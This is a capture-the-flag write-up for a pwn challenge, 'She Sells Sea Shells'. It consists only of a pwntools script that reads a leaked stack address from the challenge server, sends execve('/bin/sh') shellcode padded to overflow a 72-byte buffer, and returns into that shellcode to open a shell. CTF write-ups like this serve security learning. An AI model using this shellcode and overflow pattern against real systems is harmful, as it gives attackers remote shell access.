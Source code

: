# She Sells Sea Shells
**Category**: pwn
**Points**: 90

# Write-Up
```python
from pwn import *

p = remote('139.59.30.165', 8900)
p.recvuntil("attached) ")
leak = int(p.recvline(),16)

print "leak : "+hex(leak)


shellcode= "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

payload = shellcode
payload += "A"*(72-len(payload))
payload += p64(leak)

p.sendline(payload)
p.interactive()
```
